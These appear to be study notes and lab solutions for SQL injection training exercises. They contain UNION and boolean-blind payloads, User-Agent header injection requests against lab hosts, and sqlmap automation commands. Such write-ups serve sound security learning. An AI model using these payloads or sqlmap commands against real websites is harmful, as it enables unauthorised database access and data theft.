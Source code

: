 Ejemplo:

```
hacker.site/payload.php?payload='UNION SELECT USER(); -- -
```

Termina el trabajo con SQLMAP

```sql
sqlmap -u 'http://hacker.site/payload.php?payload=x' --technique=U --banner

--flush-session --batch --banner
# test the time difference between Time-based and Union-based
# Time 0 is 3min long, Union is 2sec
```

Tenemos que pre-elaborar el formulario antes de presentar la solicitud.

## Lab Solutions

### SQLi 1

PoC:

```bash
GET / HTTP/1.1
Host: 1.sqli.labs
User-Agent: ' UNION SELECT user(); -- -
```

SQLMap Automation:

```
sqlmap -u 'http://1.sqli.labs/' -p user-agent --random-agent --banner
```

### SQLi 2

```bash
UNION and standard payloads like 1='1 are filterer.

PoC, False Blind:
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: ' or 'elscustom'='elsFALSE


PoC, True Blind:
GET / HTTP/1.1
Host: 2.sqli.labs
User-Agent: ' or 'elscustom'='elscustom


# SQLMap Automation:
sqlmap -u 'http://2.sqli.labs/' -p user-agent --user-agent=elsagent --technique=B --banner
```
